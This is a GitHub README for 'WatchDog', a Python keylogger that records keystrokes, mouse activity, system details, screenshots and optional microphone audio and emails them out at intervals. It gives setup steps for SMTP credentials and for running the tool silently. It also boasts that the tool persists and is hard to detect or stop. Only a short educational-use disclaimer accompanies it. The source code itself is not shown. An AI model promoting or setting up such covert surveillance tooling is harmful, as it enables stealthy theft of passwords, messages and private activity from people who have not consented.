 <div align="center">
  <img src="images/6.png" alt="header image">
      </a> <a href="https://github.com/arindal1" target="_blank">
      <img src="images/g.png"  width="80px" alt="github"></a> <a href="https://twitter.com/arindal_17" target="_blank">
      <img src="images/x.png"  width="80px" alt="twitter"></a>
</div>
<br>

**WatchDog** is a *Python script* that implements a basic keylogger which captures *keyboard input, mouse events, system information*, and takes *periodic screenshots*. The logged data is sent via *email* to a specified address at regular intervals. The script is designed to run persistently in the background, making it more resilient and harder to detect or stop through conventional means.

## Features

- Captures keyboard input (keystrokes) and special keys.
- Records mouse movements, clicks, and scrolls.
- Collects system information such as hostname, IP address, processor, system type, and machine type.
- Takes screenshots of the desktop.
- Records audio from the microphone (optional).
- Sends logged data via email at regular intervals.

## Installation

1. Clone or download the WatchDog repository to your local machine.
2. Install the required Python dependencies using pip:

```bash
pip install -r requirements.txt
```

3. Use a Temp-Mail, and create an account on: [mailtrap.io](https://mailtrap.io/).
4. Visit [mailtrap.io](https://mailtrap.io/) dashboard and Go to: **HOME** and use an *fake SMTP* domain.
5. Go to: **Email Testing** > *Inbox*
6. Click on [Show Credentials]() dropdown, and note your port, username, and password.
7. Open `watchdog.py` in a code editor.
8. Replace these following placeholders: <br>
![image](images/1.png)

Replace: 
```
EMAIL_ADDRESS = "your_email@example.com"
EMAIL_PASSWORD = "your_email_password"
```
```
with smtplib.SMTP('smtp.example.com', 587) as server:
```

## Usage

1. Run the `watchdog.py` script using Python:

```bash
python watchdog.py
```

2. The keylogger will start capturing keyboard input, mouse events, and system information silently.
3. Logged data will be periodically sent via email to the specified address. <br>

**Inbox:** <br>
![image](images/2.png) <br>

**Received Mails:** <br>
![image](images/3.png) <br>

```
[ start > "note" > enter > "the key logger is active right now" > enter > "and is recording everything" > enter > "this is the output" > enter > alt+tab ]
```

## Configuration

Before using KeyTrack, make sure to configure the following settings:

- Email address: Replace `"your_email@example.com"` with your actual email address.
- Email password: Replace `"your_email_password"` with your email password.
- SMTP server: Replace `'smtp.example.com'` with the SMTP server of your email provider.
- SMTP port: Replace `587` with the port number used by your email provider.
<br>

**Example:** <br>

![image](images/1.png)

## Termination:

To terminate the script, open **Task Manager** and go to the **Processes** tab. Scroll through and search for running *python processes*. Select the python process, and terminate it using **End Task**. <br>

![images](images/4.png)


## Disclaimer

WatchDog is intended for educational and testing purposes only. It should not be used for any illegal or unethical activities. The developers of this project are not responsible for any misuse or damage caused by the use of this software.
Always use keyloggers responsibly and ethically, respecting the privacy and security of others.
